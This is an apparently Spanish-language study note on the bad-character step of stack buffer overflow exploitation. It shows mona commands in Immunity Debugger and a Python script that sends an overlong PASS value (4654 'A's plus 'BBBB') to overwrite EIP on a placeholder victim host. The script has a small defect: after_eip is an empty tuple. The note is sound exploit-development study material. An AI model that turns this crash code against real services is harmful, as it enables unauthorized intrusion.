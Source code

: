 #BufferOverflow #Bytearray #Badchars #ShellCode 

A la hora de generar nuestro *ShellCode* para explotar el bufferoverflow es posible que algunos caracteres no sean interpretados correctamente estos son conocidos como *Badchars*.
Ahora en nuestra pila donde inyectamos el shellcode haremos las pruebas para identificar estos caracteres no deseados.


Con la herramienta de `mona` en Inmunity seleccionaremos nuestra ruta de trabajo `!mona config -set workingfolder C:\Users\<Usuario>\Desktop\Analysis`
Ahora generaremos un *bytearray* `!mona bytearray -cpb '\x00'` excluyendo el nullbyte
Este *bytearray* es el que añadiremos a la pila ESP para ver que caracteres no son identificados *badchars* para que no nos genere conflictos.


00.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	offset = 4654 #Ofset que nos ha dado metasploit
	
	before_eip = b"A"*offset #Cadena de A antes de llegar al offset(valor del EIP)
	eip = b"B"*4 #Cadena con el valor del EIP, es *4 por que es la capacidad del registro EIP
	after_eip = ()
	
	payload = before_eip + eip + after_eip
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + payload + b'\r\n') #En el campo PASS introducira el payload que es igual a 4654 + eip
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
		
